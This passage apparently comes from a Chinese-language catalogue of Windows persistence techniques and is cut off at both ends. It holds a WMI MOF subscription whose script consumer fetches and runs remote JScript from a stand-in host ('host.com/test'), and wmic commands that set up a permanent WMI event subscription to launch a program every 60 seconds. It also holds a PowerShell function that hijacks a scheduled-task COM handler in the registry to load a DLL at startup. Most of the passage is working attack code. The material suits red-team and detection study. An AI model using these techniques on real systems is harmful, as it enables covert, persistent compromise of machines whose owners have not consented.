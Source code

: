 ```
Name = "filtP1";
Query = "Select * From __InstanceModificationEvent "
"Where TargetInstance Isa \"Win32_LocalTime\" "
"And TargetInstance.Second = 1";
QueryLanguage = "WQL";
}; 
instance of ActiveScriptEventConsumer as $Consumer
{
Name = "consP1";
ScriptingEngine = "JScript";
ScriptText = "GetObject(\"script:https://host.com/test\")";
}; 
instance of __FilterToConsumerBinding
{
Consumer = $Consumer;
Filter = $EventFilter;
};
```
管理员执行：
```
mofcomp test.mof
```
##### 13、[wmi](https://3gstudent.github.io/Study-Notes-of-WMI-Persistence-using-wmic.exe) 

每隔60秒执行一次notepad.exe
```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```
##### 14、[Userland Persistence With Scheduled Tasks](https://3gstudent.github.io/Userland-registry-hijacking)  
劫持计划任务UserTask，在系统启动时加载dll
```
function Invoke-ScheduledTaskComHandlerUserTask
{
[CmdletBinding(SupportsShouldProcess = $True, ConfirmImpact = 'Medium')]
Param (
[Parameter(Mandatory = $True)]
[ValidateNotNullOrEmpty()]
[String]
$Command,

[Switch]
$Force
)
$ScheduledTaskCommandPath = "HKCU:\Software\Classes\CLSID\{58fb76b9-ac85-4e55-ac04-427593b1d060}\InprocServer32"
if ($Force -or ((Get-ItemProperty -Path $ScheduledTaskCommandPath -Name '(default)' -ErrorAction SilentlyContinue) -eq $null)){
New-Item $ScheduledTaskCommandPath -Force |
New-ItemProperty -Name '(Default)' -Value $Command -PropertyType string -Force | Out-Null
}else{
Write-Verbose "Key already exists, consider using -Force"
exit
}

if (Test-Path $ScheduledTaskCommandPath) {
Write-Verbose "Created registry entries to hijack the UserTask"
```